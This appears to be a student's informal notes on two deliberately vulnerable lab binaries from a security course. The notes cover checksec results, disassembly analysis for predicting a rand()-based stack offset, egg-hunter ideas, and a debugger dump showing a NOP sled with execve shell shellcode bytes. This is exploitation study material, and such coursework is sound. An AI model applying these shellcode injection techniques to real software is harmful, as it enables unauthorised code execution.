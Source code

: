 Find-me:

 checksec find-me
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/k-730/.cache/.pwntools-cache-3.13/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.14.1)
[*] '/home/k-730/COMP6447/wk3/find-me'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

00401352  4883ec40           sub     rsp, 0x40
=> So stack frame is most likely 0x40 = 64 bytes
Stack frame always changing!

Our stack is at:
contents is printed at $rbp-0x30

Bad chars are 0xf,0x5! We cant use syscall!

This means we have to use the opened fd
file discriptor to read the contents of the flag!! From file descriptor

Should the small shellcode look for the bigger shellcode? YES!

Interesting, another file descriptor for the flag is opened @0x0040158c! Perhaps we must use this!

flag size is 190 bytes

SHellz:

└─$ checksec shellz
[*] '/home/k-730/COMP6447/wk3/shellz'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

printf("Here is a random stack address: …", (int64_t)(rand() % 500) + &buf, &buf);
So stack is located at:
stack = leaked_stack + random
somewhere!

Now rsp is 0x2000 = 8192 bytes in size

possible attack paths
OMFG i just have to loop thru 500 of the bytes to find the buffer address
Use the c rand function in python to try and get the flag.

Best way is to predict the rand:

Predict rand() (best)

These instructions fuzz the random:
0040125e  4863d0             movsxd  rdx, eax                   0x3e92da52
00401261  4869d2d34d6210     imul    rdx, rdx, 0x10624dd3       0x3e92da52 *0x10624dd3 = 0x40134e2_72189b96
00401268  48c1ea20           shr     rdx, 0x20                  0x40134e2 =  0x40134e2_00000000
0040126c  c1fa05             sar     edx, 0x5                   0x2009a7
0040126f  89c1               mov     ecx, eax                   ecx = 0x3e92da52
00401271  c1f91f             sar     ecx, 0x1f(31)              ecx = 0x0 (Could be 1 or 0)!
00401274  29ca               sub     edx, ecx                   edx - ecx (1 or 0)
00401276  69caf4010000       imul    ecx, edx, 0x1f4            ecx = edx* (500)
0040127c  29c8               sub     eax, ecx
0040127e  89c2               mov     edx, eax
00401280  4863c2             movsxd  rax, edx
00401283  488d9500e0ffff     lea     rdx, [rbp-0x2000 {buf}]
0040128a  4801d0             add     rax, rdx {buf}

Example:
0x3e92da52
0x3e92da52 * 0x10624dd3 = 0x40134e272189b96
0x40134e2

x/80gx $rsp
0x7ffd5fdaec60: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaec70: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaec80: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaec90: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaeca0: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaecb0: 0x9090909090909090      0x9090909090909090
0x7ffd5fdaecc0: 0x2fbf4856f6314890      0x5768732f2f6e6962
0x7ffd5fdaecd0: 0x050f99583b6a5f54      0x00007ffd5fdace2c

pwndbg> x/4gx $rbp
0x7ffd5fdaecd0: 0x050f99583b6a5f54      0x00007ffd5fdace2c

WTF why does the order of the payload matter?
